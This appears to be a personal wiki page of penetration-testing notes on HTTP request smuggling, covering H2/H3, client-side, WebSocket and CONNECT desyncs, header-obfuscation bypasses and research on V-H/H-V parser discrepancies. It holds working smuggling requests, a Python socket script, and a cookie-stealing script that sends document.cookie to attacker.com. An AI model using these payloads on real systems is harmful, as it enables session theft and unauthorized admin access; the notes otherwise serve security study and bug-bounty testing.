

# Advanced HTTP Request Smuggling: H2/H3 Desync, Tunneling & Client-Side Attacks

### Real-World Exploitation Workflow



1. **Identify Desync Vulnerability**:
   - Test CL.TE, TE.CL, TE.TE patterns
   - Confirm with time-delay observations

2. **Establish Attack Vector**:
   - Determine the most reliable desync method
   - Identify the best obfuscation technique for the target

3. **Craft Exploitation Payload**:
   - Create a request that smuggles another request
   - Target sensitive functionality or information disclosure

4. **Execute and Validate**:
   - Send the smuggled request
   - Observe the effects on subsequent responses

5. **Document Impact**:
   - Demonstrate real security implications
   - Show how the vulnerability could affect users

### Modern Desync Variants

#### HTTP/3 Desync

HTTP/3 uses QUIC transport which introduces new desync opportunities when proxies translate between HTTP/3 and HTTP/1.1:

**HTTP/3 to HTTP/1.1 Translation:**

```http
# HTTP/3 request with duplicate headers
:method: POST
:path: /api/endpoint
:authority: target.com
content-length: 10
content-length: 50

# Backend may use different content-length value
```

**Testing HTTP/3:**

```bash
# Using curl with HTTP/3
curl --http3 https://target.com/endpoint -v

# Check Alt-Svc header indicating HTTP/3 support
curl -I https://target.com | grep -i alt-svc
```

**QUIC Stream Manipulation:**

- Multiple streams in single connection may be processed inconsistently
- Stream resets can leave partial data in backend queues
- QPACK header compression differences between implementations

#### Client-Side Desync (CSD)

Client-side desync exploits browser behavior to poison the browser's own connection pool, affecting subsequent requests from the same client.

**Mechanism:**

1. Attacker crafts response that browser caches
2. Response includes smuggled request
3. Next victim request gets poisoned response

**Example CSD Attack:**

```http
POST / HTTP/1.1
Host: vulnerable.com
Content-Length: 150
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable.com
Content-Length: 10

x=
GET /static/innocent.js HTTP/1.1
Host: vulnerable.com
```

**Browser receives:**

```http
HTTP/1.1 200 OK
Content-Length: 100

<script>
  // Malicious JavaScript injected into cached response
  document.location='http://attacker.com/steal?cookie='+document.cookie;
</script>
```

**Testing for CSD:**

1. Send smuggling payload
2. Open same site in new tab
3. Check if subsequent request receives smuggled response
4. Look for `Age` or `X-Cache` headers indicating cache hit

**High-Value Targets:**

- JavaScript files (cached and executed)
- CSS files (for exfiltration via background-image)
- JSON API responses (manipulate application state)

#### WebSocket Desync

WebSocket upgrade process can be vulnerable to request smuggling:

**WebSocket Upgrade Smuggling:**

```http
POST / HTTP/1.1
Host: vulnerable.com
Content-Length: 200
Transfer-Encoding: chunked

0

GET /chat HTTP/1.1
Host: vulnerable.com
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Sec-WebSocket-Version: 13
Sec-WebSocket-Protocol: attacker-injection

```

**Smuggling After WebSocket Establishment:**

```http
# Send via established WebSocket connection
GET /admin HTTP/1.1
Host: vulnerable.com
Cookie: admin_session=stolen_token
```

**WebSocket Frame Manipulation:**

- Inject malicious frames during upgrade
- Exploit frame fragmentation handling differences
- Target WebSocket proxies (nginx, HAProxy) that may parse differently

**Testing Steps:**

1. Initiate WebSocket upgrade with smuggling payload
2. Monitor if backend processes smuggled HTTP request
3. Check WebSocket frames for injected content
4. Test multiple simultaneous upgrade requests

#### Request Tunneling via CONNECT

CONNECT method can be abused for request smuggling:

```http
CONNECT internal.service:80 HTTP/1.1
Host: vulnerable-proxy.com

GET /admin HTTP/1.1
Host: internal.service
Authorization: Bearer stolen_token
```

**Testing:**

1. Send CONNECT request to proxy
2. Include smuggled request in CONNECT body
3. Check if proxy forwards to internal service

#### Pause-Based Desync

Exploiting TCP flow control and timing:

```python
import socket
import time

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('vulnerable.com', 80))

# Send headers slowly
s.send(b'POST / HTTP/1.1\r\n')
time.sleep(2)
s.send(b'Host: vulnerable.com\r\n')
time.sleep(2)
s.send(b'Content-Length: 50\r\n')
s.send(b'Transfer-Encoding: chunked\r\n\r\n')

# Send smuggled request
s.send(b'0\r\n\r\nGET /admin HTTP/1.1\r\n')
s.send(b'Host: vulnerable.com\r\n\r\n')
```

#### Header Oversizing

Exploit differences in maximum header sizes:

```http
POST / HTTP/1.1
Host: vulnerable.com
X-Padding: AAAA[... 8KB of data ...]
Content-Length: 100
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
```

If front-end accepts larger headers than backend, backend may miss headers after cutoff point.

### Detection Bypass Techniques (Advanced)

**Header Name Obfuscation:**

```http
Transfer-Encoding : chunked          # Space before colon
Transfer-Encoding\t: chunked         # Tab
Transfer\rEncoding: chunked          # Carriage return
Transfer\x00Encoding: chunked        # Null byte (rare)
Transfer\x0bEncoding: chunked        # Vertical tab
```

**Multiple Content-Length Variations:**

```http
Content-Length: 10
Content-Length: 20
Content-length: 30           # Case variation
CONTENT-LENGTH: 40           # Uppercase
Content-Length : 50          # Space before colon
```

**HTTP/2 Pseudo-Header Smuggling:**

```http
:method: POST
:path: /
:authority: target.com
:method: GET                  # Duplicate pseudo-header
content-length: 0
content-length: 50            # Duplicate content-length
```

**Transfer-Encoding Value Pollution:**

```http
Transfer-Encoding: chunked, identity
Transfer-Encoding: identity, chunked
Transfer-Encoding: chunked;q=1
Transfer-Encoding: chunked\x20\x20
Transfer-Encoding: chunked\x0d\x0a
```


<!-- TOC_START -->
## Table of Contents
  - [Real-World Exploitation Workflow](#real-world-exploitation-workflow)
  - [Modern Desync Variants](#modern-desync-variants)
    - [HTTP/3 Desync](#http3-desync)
    - [Client-Side Desync (CSD)](#client-side-desync-csd)
    - [WebSocket Desync](#websocket-desync)
    - [Request Tunneling via CONNECT](#request-tunneling-via-connect)
    - [Pause-Based Desync](#pause-based-desync)
    - [Header Oversizing](#header-oversizing)
  - [Detection Bypass Techniques (Advanced)](#detection-bypass-techniques-advanced)
- [A strategy to win the desync endgame](#a-strategy-to-win-the-desync-endgame)
  - [Understanding V-H and H-V discrepancies](#understanding-v-h-and-h-v-discrepancies)
    - [Turning a V-H discrepancy into a CL.0 desync](#turning-a-v-h-discrepancy-into-a-cl0-desync)
    - [Exploiting H-V on IIS behind ALB (AWS Application Load Balancer)](#exploiting-h-v-on-iis-behind-alb-aws-application-load-balancer)
    - [Exploiting H-V without Transfer-Encoding](#exploiting-h-v-without-transfer-encoding)
- [Related Pages](#related-pages)
<!-- TOC_END -->

## A strategy to win the desync endgame
- Daniel Thacher presented [Practical HTTP Header Smuggling](https://www.youtube.com/watch?v=RAtpG6OYYNM) -> [HTTP Request Smuggler v3.0](https://github.com/PortSwigger/http-request-smuggler/).
	- !
### Understanding V-H and H-V discrepancies
- [ ] ! => parser discrepancy (All that matters is that they're different)
- **Visible-Hidden (V-H)**: The masked Host header is visible to the front-end, but hidden from the back-end
- **Hidden-Visible (H-V)**: The masked Host header is hidden from the front-end, but visible to the back-end
#### Turning a V-H discrepancy into a CL.0 desync
- [ ] ==TE.CL== exploit by hiding the Transfer-Encoding header from the back-end
- [ ] ==CL.0 ==exploit by hiding the Content-Length header
!
- front-end server was rejecting GET requests that contained a body? 
	- [ ] switching the method to OPTIONS
- [ ] same header (Host), and the same permutation (leading space before header name), but a different strategy (duplicate Host with invalid value) 
  !
> [!note] web VPNs often have flawed HTTP implementations and I would strongly advise against placing one behind any kind of reverse proxy
- [ ] not treating `\n\n` as terminating the header block
    !
#### Exploiting H-V on IIS behind ALB (AWS Application Load Balancer)
- The classic way to exploit a H-V discrepancy is with a ==CL.TE desync== !
- this gets blocked by AWS' [Desync Guardian](https://docs.aws.amazon.com/elasticloadbalancing/latest/application/application-load-balancers.html#desync-mitigation-mode) 
	- Thomas Stacey [independently discovered it](https://assured.se/posts/the-single-packet-shovel-desync-powered-request-tunnelling) and bypassed it using H2.TE desync
	- Even with the H2.TE bypass fixed, attackers can still exploit this to smuggle headers, enabling IP-spoofing and [sometimes complete authentication bypass](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn#explore).
- AWS didnt patched it (backward compatibility)
#### Exploiting H-V without Transfer-Encoding
- **The 0.CL deadlock**
	- The front-end doesn't see the Content-Length header, so it will regard the orange payload as the start of a second request!
	- The back end does see the Content-Length header, so it will wait for the body to arrive. Meanwhile, the front-end will wait for the back-end to reply => deadlock!
- [ ] ==a way to make the back-end server respond to a request without waiting for the body to arrive== 
	- [ ] Linux: [single-packet attack](https://portswigger.net/research/the-single-packet-attack-making-remote-race-conditions-local) on a static file on a target running nginx
	- [ ] Windows: `CON, PRN, AUX, NUL, COM1, COM2, COM3, COM4, COM5, COM6, COM7...` as the name of the file


## Related Pages
- [[http-request-smuggling]]
- [[http-request-smuggling-detection-methodology]]
- [[http-request-smuggling-defense-and-remediation]]
- [[cl-te-vs-te-cl]]
- [[turbo-intruder]]
- [[web-and-bug-bounty]]